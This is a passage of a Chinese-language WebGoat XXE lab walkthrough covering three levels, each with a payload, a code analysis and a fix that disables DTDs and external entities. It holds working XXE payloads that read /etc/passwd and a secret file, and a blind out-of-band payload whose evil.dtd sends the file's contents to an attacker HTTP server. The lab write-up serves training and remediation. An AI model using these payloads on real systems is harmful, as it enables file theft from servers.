最后创建一个Unmarshaller对象。返回的值是xml经过unmarshal方法处理的值。由于unmarshal在执行过程中解析了XML（该XML内容也是我们可控的），导致XXE注入
这里由于是解析外部DTD的，同时也没有任何过滤手段，这意味着我们随便注入即可。
代码修复
我们只需要禁止解析外部DTD即可，对应代码：
package XXE;
import lombok.var;
import javax.xml.bind.JAXBContext;
import javax.xml.bind.JAXBException;
import javax.xml.stream.XMLInputFactory;
import javax.xml.stream.XMLStreamException;
import java.io.StringReader;
public class XXERepair {
public void Repair() throws JAXBException, XMLStreamException {
String xml = "<?xml version=\"1.0\"?>\n" +
"<!DOCTYPE doc [ \n" +
"<!ENTITY xxe SYSTEM \"file:///etc/passwd\">\n" +
"]><comment><text>&xxe;</text></comment>";
var jc = JAXBContext.newInstance(Comment.class);
// 创建了我们的工厂 读取xml的一个工厂
var xif = XMLInputFactory.newInstance();
// 不支持外部实体
// 后面两行是多加的代码
xif.setProperty(XMLInputFactory.IS_SUPPORTING_EXTERNAL_ENTITIES, false);
// 不支持dtd
xif.setProperty(XMLInputFactory.SUPPORT_DTD, false);
var xsr = xif.createXMLStreamReader(new StringReader(xml));
// 将我们的xml 变成我们的java对象
var unmarshaller = jc.createUnmarshaller();
unmarshaller.unmarshal(xsr);
}
public static void main(String[] args) throws JAXBException, XMLStreamException {
XXERepair test = new XXERepair();
test.Repair();
}
}可以看到设置了XMLInputFactory对应的两个属性为false。
关卡二

这里说让我们尝试与上次相同的攻击目的，根据提示他说服务器可能会接受意想不到的数据格式。我们抓包看看有何变化

可以看到这里是json格式，根据提示我们肯定可以猜到这里可以修改json为xml即可
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [
<!ENTITY rabbit SYSTEM "file:///" >
]>
<comment><text>&rabbit;</text></comment>
可以看到成功注入
代码分析

这里可以看到将http请求中的conten-type的内容赋值给了contenttype参数，接着通过
APPLICATION_JSON_VALUE.equals(contentType)与contentType.contains(MediaType.APPLICATION_XML_VALUE)来判断格式为xml还是json格式，随机选择对应的解析器进行解析。
之后的xml解析处理方法与上一关相同，没变化，漏洞原理一致，不赘述了
代码修复
与上一关类似，修改至与上一关相同即可
关卡三

这关考察xxe盲注，这里我没有webwolf服务器，就用的kali的http服务了。
思路就是通过file协议读取到目标文件，接着通过参数实体的作用将其构造为http请求，去请求我们的攻击机，最终通过查看请求日志即可看到相应的文件内容。
首先在bp上发送如下内容，接着在攻击机上构造evil.dtd文件
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [
<!ENTITY % dtd SYSTEM "http://192.168.246.130:8000/evil.dtd">
%dtd;
%print;
%send;
]>
<comment><text>hacker</text></comment>#evil.dtd
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % file SYSTEM "file:///home/webgoat/.webgoat-8.1.0//XXE/secret.txt">
<!ENTITY % print "<!ENTITY % send SYSTEM 'http://192.168.246.130:8000/landing?text=%file;'>">
构造好xml数据发送即可，最终在kali上即可看到文件内容

代码分析

这里可以与第一关代码进行对比，就是缺少下列代码。删除了数据的回显，剩下的话与第一关就相同了
if (checkSolution(comment)) {
return success(this).build();
}代码修复
与第一关一致
十九、参考文章
https://xz.aliyun.com/t/3357#toc-8